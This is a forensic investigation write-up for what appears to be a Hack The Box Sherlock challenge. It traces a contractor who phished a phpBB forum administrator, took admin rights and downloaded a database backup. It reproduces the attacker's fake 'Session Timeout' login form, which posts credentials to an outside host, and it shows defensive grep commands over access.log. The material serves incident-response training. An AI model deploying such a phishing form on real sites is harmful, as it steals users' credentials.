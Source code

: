 ```yaml
---
tags:
  - htb
  - sherlock
  - dfir
  - access
  - log
  - phpbb
  - sqlite3
  - phishing
---
```

### Scenario
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.

### Artifacts
|Artifact|MD5 Hash|Password|
|----|----|----|
|bumblebee.zip|ba06e26779ead4b6299b6a188d11fc02|hackthebkue|
|incident.tgz|1b301c2fb2a1232758aca31588506edf|n/a|

### Tools Used
+ SQLite Browser - For `phpbb.sqlite3` database analysis.
+ Linux Terminal - For `access.log` analysis.

### Forensic Analysis

**Analyzing SQLite3 Database**

The contractor's user information are listed below.
![[Pasted image 20240613104708.png]]


The contractor's post information for the forum are listed below.
![[Pasted image 20240613105158.png]]

Post contents malicious part
```html
<--snip-->
<div id="page-body" class="page-body" role="main">
<div class="panel">
<div class="inner">

<div class="content">
<h3>Session Timeout</h3> <br /> <br />
<p>Your session token has timed out in order to proceed you must login again.</p>
</div>

</div>
</div>

<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
<div class="panel">
<div class="inner">
<div class="content">

<h2 class="login-title">Login</h2>
<fieldset class="fields1">

<dl>
<dt><label for="username">Username:</label></dt>
<dd><input type="text" tabindex="1" name="username" id="username" size="25"
value="" class="inputbox autowidth"></dd>
</dl>

<dl>
<dt><label for="password">Password:</label></dt>
<dd><input type="password" tabindex="2" id="password" name="password" size="25" class="inputbox autowidth" autocomplete="off"></dd>
</dl>

<dl>
<dd><label for="autologin"><input type="checkbox" name="autologin"
id="autologin" tabindex="4">Remember me</label></dd>
<dd><label for="viewonline"><input type="checkbox" name="viewonline"
id="viewonline" tabindex="5">Hide my online status this session</label></dd>
</dl>

<dl>
<dt>&nbsp;</dt>
<dd> <input type="submit" name="login" tabindex="6" value="Login"
class="button1" onclick="sethidden()"></dd>
</dl>

</fieldset class="fields1">
</div>
</div>
</div>
</form>
</div>
```

At this point we have identified the malicious IP `10.10.0.78`, and was used to access the forum as well as staging a credential stealer namely `update.php`. 

Browsing the `phpbb_log` table we found additional information when the contractor logged in as Administrator. The real Administrator's IP was `10.255.254.2`. Upon Investigating the `access.log` artifact we can verify their information like User-Agent, which URLs were visited to get a sense of baseline activity which are normal for an Administrator user.

Then we can use those information against the threat actor to accurately paint a picture of the malicious activities that was done.

**Analyzing `access.log`**

An access.log file can have a vast volume of data it is recommended to use Splunk or ElasticSearch or any kind of SIEM tool to quickly find and triage information. But, in our case we have relatively small amount of data and we can use basic Linux commands to filter and search for the information we are looking for.

Filtering the access.log file is very helpful to find the actual data we are looking for. For example, we don't need the data when a page loads and request are made to load CSS, images, assets to render the UI.

We can easily filter those types of requests using `egrep`. The command for filtering assets related data is given below:
```bash
cat access.log | egrep -v "/(assets|style|images)"
```

Here `-v` returns everything except the matching pattern.

Let's search for the legit Administrator's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.255.254.2 | head -n1
10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Let's search for the adversary's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | head -n1 
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

The contractor added himself to the administrator group.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep acp_groups | grep POST
10.10.0.78 - - [26/Apr/2023:11:53:51 +0100] "POST /adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&g=5 HTTP/1.1" 200 2623 "http://10.10.0.27/adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&action=list&g=5" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The contractor also sent two requests to backup the database.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep action=download            
10.10.0.78 - - [26/Apr/2023:11:54:22 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2463 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:24 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3771 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:30 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2474 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:56:28 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

And finally they downloaded the database backup.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep .sql
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The database backup file size was `34707` bytes (34.7 KB) in size.

### Summary
The contractor used his account to stage a phishing page in the internal forum of Forela. Then he stole the Administrator's credential using the phishing page and exfiltrated the data using a credential stealer (httx://10.10.0.78/update.php) hosted on the IP `10.10.0.78`. Then, they used the stolen Administrator credential created an account (apoole) for persistence. Then they backed up and downloaded the database.